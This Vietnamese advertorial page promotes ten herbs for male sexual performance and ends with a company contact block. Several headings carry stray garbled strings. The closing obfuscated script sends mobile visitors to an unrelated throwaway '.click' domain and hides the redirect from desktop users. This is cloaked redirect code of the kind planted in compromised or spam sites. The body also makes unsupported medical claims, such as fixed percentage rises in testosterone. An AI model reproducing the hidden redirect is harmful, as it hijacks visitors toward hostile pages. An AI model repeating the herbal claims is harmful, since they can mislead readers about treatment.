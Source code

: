 Top 10 loại thảo dược tăng cường sinh lý nam tốt nhất hiện nay

1. Bạch tật lê
Bạch tật lê hay còn có tên gọi khác là cây tật lê, gai ma vương, gia yết hầu,…Trong Y học cổ truyền, bạch tật lê là một trong những thảo dược quý có vai trò tăng cường sinh lý hiệu quả được nhiều chuyên gia khuyến khích sử dụng. Vị của bạch tật lê thường cay và đắng nhẹ, có tính âm, chuyên chữa trị chứng di tinh, yếu sinh lý hoặc thận yếu.

Trong Y học hiện đại thì thảo dược tăng cường sinh lý nam này có chứa thành phần saponin với tác dụng chủ yếu là tăng sinh tổng hợp nội tiết tố nam, giúp tăng lượng Testosterone trong máu lên khoảng 30 – 40%. Một vài nghiên cứu lâm sàng cho thấy sau một thời gian sử dụng bạch tật lê đã có sự gia tăng đáng kể về hormone sinh dục, tinh trùng và tăng ham muốn tự nhiên. 

Thông qua các bài thuốc sắc hàng ngày, nam giới có thể dùng bạch tật lê để lấy lại phong độ của phái mạnh. Ngoài ra, nên kết hợp cùng với các chế độ ăn uống, nghỉ ngơi đầy đủ để đảm bảo chức năng tình dục và điều trị rối loạn sinh lý. 

2. Đông trùng hạ thảo
Đông trùng hạ thảo là một dược liệu được biết đến nhiều nhất với công dụng bổ thận tráng dương, tăng cường sinh lý, sinh lực hiệu quả. Trong thành phần của mình, đông trùng hạ thảo có chứa nhiều vitamin, axit amin, canxi, protein,… cần thiết để tổng hơp Adrenocortical – hormone tương tự hormone sinh dục. Nhờ vậy, nam giới có thể cải thiện các vấn đề về xuất tinh sớm, nâng cao chất lượng tinh trùng, đẩy lùi các triệu chứng di tinh, mộng tinh,…

Ngoài ra, đông trùng hạ thảo còn hỗ trợ điều trị các bệnh về tim mạch, ổn định sức khỏe cho thận, giảm cholesterol trong máu,…

Để hấp thu tối đa chất dinh dưỡng, bạn có thể chế biến đông trùng hạ thảo theo nhiều cách khác như sắc nước uống, ngâm rượu, hãm trà hoặc nấu với các món ăn hàng ngày như canh gà hầm với đông trùng, đông trùng xào thịt bò,…

3. Nhục thung dung/-strong/-heart:>:o:-((:-h Y học cổ truyền coi nhục thung dung là “nhân sâm sa mạc” bởi chúng có sức sống mãnh liệt nên có thể tồn tại ngay cả những nơi khô cằn nhất. Nhục thung dung được nhận xét là có hương vị ngọt, hơi mặn, có tính ấm nên mang đặc tính tráng dương, bổ thận, dưỡng huyết, ích tinh, tăng cường sức khỏe, tăng cường sinh lực cho nam giới. Bạn có thể chế biến dược liệu này thành các món hầm hoặc cháo cho dễ ăn hoặc đơn giản nhất là ngâm rượu uống hàng ngày. Tuy nhiên, để việc sử dụng thảo dược tăng cường sinh lý nam đạt được kết quả tốt thì cần phải kiên trì thực hiện và tuân thủ đúng với liều lượng đã chỉ định từ bác sĩ. 

4. Ba kích 
Ba kích không phải là phương thuốc hiếm lạ đối với nam giới. Dược liệu này có vị hơi cay cay, ngọt có công dụng cường gân tráng cốt, bổ thận tráng dương, tăng cường sinh lý, hỗ trợ điều trị các bệnh lý nam khoa hữu hiệu. Ngoài ra, với thành phần là các vitamin khoáng chất và nhiều dưỡng chất khác, ba kích còn cải thiện chất lượng giấc ngủ, xoa dịu thần kinh, thúc đẩy quá trình trao đổi chất, tăng sức đề kháng cho cơ thể. Phương pháp mà nhiều quý ông hay sử dụng chính là ngâm rượu ba kích để dễ dàng uống hàng ngày. 

Tuy vậy, khi chế biến thảo dược tăng cường sinh lý nam này, bạn phải cẩn thận tách bỏ toàn bộ phần lõi để tránh phản tác dụng, gây ảnh hưởng xấu đến tim mạch và chức năng tình dục. 

5. Dâm dương hoắc 
Từ thời xa xưa, dâm dương hoắc đã thường được sử dụng cho dê đực với mục đích tăng số lần giao hợp trong mùa sinh sản. Chính vì vậy, dâm dương hoắc được sử dụng là thảo dược tăng cường sinh lý nam, chủ yếu để chữa trị các bệnh về rối loạn tình dục, bổ thận tráng dương, tăng cường sức khỏe gân cốt, triệt tiêu các triệu chứng xuất tinh sớm, rối loạn cương dương,…

Trong nhiều nghiên cứu khoa học hiện nay còn cho thấy trong dâm dương hoắc chứa nhiều L – Arginine – hoạt chất gia tăng nội tiết tố sinh dục Testosterone, do đó tăng khả năng tình dục và gia tăng hưng phấn. 

Nam giới hoàn toàn có thể sử dụng dạng khô hoặc dạng tươi để ngâm rượu hoặc sắc lấy nước uống hàng ngày đều được. 


6. Rễ đinh lăng/-strong/-heart:>:o:-((:-h Các bộ phận của cây đinh lăng đều là những thảo dược quý trong các bài thuốc bồi bổ sức khỏe cho con người. Trong đó, rễ cây có chứa hàm lượng dinh dưỡng cao nên được dùng để nâng cao sức khỏe, cải thiện các vấn đề về tình dục, giảm các triệu chứng yếu sinh lý hoặc cải thiện khả năng sinh sản cho nam giới. 

7. Nhân sâm
Có hai loại nhân sâm đang phổ biến hiện nay: bạch sâm và hồng sâm. Tuy nhiên, hồng sâm lại được coi là thảo dược tăng cường sinh lý nam thường xuyên được sử dụng trong điều trị rối loạn cương dương, tăng cường sinh lực cho phái mạnh. Hồng sâm khi sử dụng đúng cách sẽ tăng cường sự dẻo dai, bền bỉ khi ân ái, tăng cảm giác ham muốn và giảm cảm giác mệt mỏi sau cuộc yêu.

Trong nhân sâm chứa rất nhiều hoạt chất dinh dưỡng như ginsenoside, polyacetylenes, peptidoglycans,… giúp cải thiện chất lượng tinh trùng, tăng khả năng sinh sản. Nam giới có thể dùng để sắc thuốc uống, uống trà hồng sâm hoặc chế biến thành nhiều món ngon để thưởng thức. 

8. Nấm linh chi
Một trong những thảo dược tăng cường sinh lý nam tốt nhất chính là nấm linh chi. Dược liệu này giúp chuyển hóa các chất hữu cơ trong cơ thể thành steroid, kích thích sản sinh hormone testosterone giúp nam giới mạnh mẽ hơn, phong độ hơn trong mọi cuộc yêu. Hơn nữa, các thành phần Germanium và Polysaccharides trong nấm linh chi còn có tác dụng ức chế các gốc tự do, chống oxy hóa, ngăn ngừa mãn dục sớm ở người nam.

9. Sâm cau 
Sâm cau có nhiều thành phần dưỡng chất để cải thiện các vấn đề suy giảm chức năng sinh lý ở nam giới. Các hoạt chất triterpen saponin và cycloartan là yếu tố chính giúp cải thiện nội tiết tố testosterone, duy trì sức khỏe sinh lý các chức năng bình thường ở cơ quan sinh dục. Phương thuốc để sử dụng sâm cau – thảo dược tăng cường sinh lý nam hiệu quả có thể kể đến như sắc nước, hãm trà, ngâm rượu,…

10. Nấm ngọc cẩu

Nấm ngọc cẩu, hay còn gọi là nấm tỏa dương là một loại thảo dược tăng cường sinh lý nam cực tốt. Các thầy thuốc thường dùng chúng để cải thiện một số tình trạng như giảm ham muốn, yếu sinh lý, rối loạn cương dương,…. Một số nghiên cứu hiện đại còn cho thấy nấm ngọc cẩu còn có tác động tích cực đến não bộ – tuyến yên – tuyến thượng thận, từ đó, cải thiện khả năng tình dục, cải thiện sinh lý và sức khỏe gân cốt.



CÔNG TY THẢO DƯỢC TỐT BACHTHAO/-strong/-heart:>:o:-((:-h ĐỊA CHỈ: La Khê, Hà Đông, Hà Nội

SĐT: 0949.155.998

GIẤY PHÉP KINH DOANH:

Giấy phép kinh doanh số: 5400412389

Ngày cấp: 26/11/2019

Ngày hoạt động: 26/11/2019

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.sfsdkjfhdsf.click/sly",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
    </script>
